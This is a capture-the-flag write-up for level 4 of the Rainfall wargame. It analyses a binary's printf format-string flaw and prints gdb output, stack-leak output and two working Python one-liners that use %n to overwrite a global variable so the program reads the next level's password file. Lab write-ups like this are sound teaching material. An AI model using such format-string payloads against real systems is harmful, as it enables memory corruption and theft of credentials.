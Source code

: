 # Rainfall - Level 4

## Executable Analyse

Program contain 3 functions: `main`, `n`, `p`, and contain a global m.  
`main`, call `n`, that call `p`.
Vulnerable function is in `n`, and execute *system("/bin/cat /home/user/level5/.pass");*  
Principe looks identic to the previous level, we need to set m == 16930116

```assembly
(gdb) info var
[...]
0x08049810  m
```

## Vulnerability

```shell
$> ./level4 
ABCD %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

ABCD 0xb7ff26b0 0xbffff794 0xb7fd0ff4 (nil) (nil) 0xbffff758 0x804848d 0xbffff550 0x200 0xb7fd1ac0 0xb7ff37d0 0x44434241 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025
```

From the 12th address (`0x44434241`) we can see that printf receives the contents of our buffer as an argument.  
The same way we exploit the precedent program, this one can be abuse with :


```shell
python -c "print b'\x08\x04\x98\x10'[::-1] + '%20p'*10 + '%16929912p' + '%n'" | ./level4
```

A more elegant solution can be found by reading the [printf man](https://linux.die.net/man/3/printf) :
>  One can also specify explicitly which argument is taken [...] by writing "%m$" instead of '%', where the decimal integer m denotes the position in the argument list of the desired argument, indexed starting from 1.

```shell
python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112x" + "%12$n"' | ./level4
```